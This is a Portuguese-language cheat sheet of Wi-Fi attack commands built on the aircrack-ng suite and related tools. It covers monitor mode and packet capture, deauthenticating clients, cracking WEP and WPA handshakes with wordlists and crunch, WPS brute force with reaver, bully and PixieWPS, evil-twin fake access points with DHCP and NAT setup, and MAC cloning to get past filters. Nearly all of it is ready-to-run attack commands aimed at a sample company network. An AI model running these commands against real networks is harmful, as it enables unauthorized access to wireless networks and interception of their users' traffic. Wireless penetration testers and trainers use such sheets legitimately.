 ```yaml
---
id: aircrack-ng_suite
title: Aircrack-NG Suite
---
```


# Aircrack-NG Suite

## Airmon-NG

Checando processos conflitantes:

```bash
airmon-ng check
```

Matando processos conflitantes:

```bash
airmon-ng check kill
```

Iniciando modo monitor:

```bash
airmon-ng start wlan0
```
:::caution
O nome da interface pode variar.
:::

Setando canal específico:

```bash
iwconfig wlan0mon channel 1
```

## Airodump-NG

Ver informações das redes wireless:

```bash
airodump-ng wlan0mon
```

Filtrando por canal:

```bash
airodump-ng -c 10 wlan0mon
```

Filtrando por BSSID:

```bash
airodump-ng --bssid 00:11:22:AA:BB:CC wlan0mon
```

Filtrando por tipo de criptografia:

```bash
airodump-ng --encrypt wep wlan0mon
```

Verificando redes com WPS:

```bash
airodump-ng wlan0mon --wps
```

```bash
wash -i wlan0mon -C
```

Capturando os pacotes e escrevendo em um arquivo:

```bash
airodump-ng -c 10 --bssid 00:11:22:AA:BB:CC -w capture wlan0mon
```

## Aireplay-NG

Para acelerar a captura de pacotes através do airodump-ng no ataque WEP:

```bash
aireplay-ng -3 -b 00:11:22:AA:BB:CC -h AA:BB:CC:DD:EE:FF:99 wlan0mon
```

**-b** ==> BSSID do roteador alvo.  
**-h** ==> BSSID do cliente conectado ao roteador.  

Para acelerar a captura de handshakes através do airodump-ng no ataque WPA:

```bash
aireplay-ng -0 5 -a 00:11:22:AA:BB:CC -c AA:BB:CC:DD:EE:FF:99 wlan0mon
```

**-a** ==> MAC access point.  
**-c** ==> MAC do cliente.  
**-0 5** ==> Deauth cliente 5 vezes.

## Aircrack-NG

Quebra do arquivo capturado no airodump-ng para redes WEP:

```bash
aircrack-ng capture-01.cap
```

Quebra do arquivo capturado no airodump-ng para redes WPA:

```bash
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

Concatenar crunch e o aircrack-ng:

```bash
crunch 15 15 -t EmpresaAlfa%%%% 0123456789 | \
  aircrack-ng captura-01.cap -w - -e EmpresaAlfa
```

## Airdecap-NG

Desencriptando pacotes escriptados em rede wireless:

```bash
airdecap-ng -w A0:11:22:33:44:55:66:77:CC:B1:B4:8A:D3 capture-01.cap
```

**-w** ==> Senha em HEX da rede.

## Airbase-NG

Criando AP Fake OPN:

```bash
airbase-ng wlan0mon -c 3 -e FreeWifi
```

Criando AP Fake WPA2:

```bash
airbase-ng wlan0mon -c 3 -e FreeWifi -Z 4
```

Configurando AP Fake para possuir acesso à internet:  
1- echo 1 > /proc/sys/net/ipv4/ip_forward  
2- iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE  
3- apt install isc-dhcp-server  
4- nano /etc/default/isc-dhcp-server

```conf title="/etc/default/isc-dhcp-server"
INTERFACES="at0"
```

5- nano /etc/dhcp/dhcpd.conf

```conf title="/etc/dhcp/dhcpd.conf"
option domain-name-servers 8.8.8.8, 8.8.4.4;  

default-lease-time 600;  
max-lease-time 7200;  

ddns-update-style none;

subnet 10.0.0.0 netmask 255.255.255.0 {
  range 10.0.0.10 10.0.0.100;
  option routers 10.0.0.1;
}
```

5- ifconfig at0 10.0.0.1/24  
6- service isc-dhcp-server start

## Evil Twin

Consiste em criar uma rede idêntica a do alvo.  

Criando rede através do airbase-ng:

```bash
airbase-ng wlan0mon -c 10 -e EmpresaAlfa -a 00:11:22:33:44:55 -Z 4
```

Agora iremos efetuar o Death dos clientes:

```bash
aireplay-ng wlan0mon -0 5 -a 00:11:22:33:44:55
```

*Logo os usuários irão se conectar no AP Fake.*

## Bully

Brute force em WPS:

```bash
bully wlan0mon -b 00:11:22:AA:BB:CC -e EmpresaAlfa -c 10
```

## Reaver

Brute force em WPS:

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv
```

Ataque PixieWPS:

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -K 1
```

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -K 1 -P
```

Utilizando timeout e delay:

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -t 2 -d 5
```

## MAC Changer

Clonando MAC de cliente para conectar em redes com MAC Filter:

```bash
ifconfig wlan0 down  
```

```bash
macchanger -m AA:BB:CC:DD:EE:FF:99 wlan0  
```

```bash
ifconfig wlan0 up  
```

```bash
service NetworkManager  
```
